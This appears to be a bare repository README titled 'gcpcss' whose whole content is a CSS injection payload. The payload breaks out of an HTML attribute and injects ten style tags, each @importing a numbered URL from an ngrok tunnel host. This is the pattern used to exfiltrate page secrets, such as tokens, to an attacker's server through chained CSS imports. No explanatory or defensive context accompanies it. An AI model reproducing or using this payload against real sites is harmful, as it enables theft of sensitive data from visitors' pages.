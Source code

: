 # gcpcss

><style>@import url(https://a85d97443840.ngrok.io/1); </style><style> @import url(https://a85d97443840.ngrok.io/2); </style><style> @import url(https://a85d97443840.ngrok.io/3)  ;</style><style> @import url(https://a85d97443840.ngrok.io/4)  ;</style><style> @import url(https://a85d97443840.ngrok.io/5)  ;</style><style> @import url(https://a85d97443840.ngrok.io/6)  ;</style><style> @import url(https://a85d97443840.ngrok.io/7)  ;</style><style> @import url(https://a85d97443840.ngrok.io/8)  ;</style><style> @import url(https://a85d97443840.ngrok.io/9)  ;</style><style> @import url(https://a85d97443840.ngrok.io/10)  ;</style> 
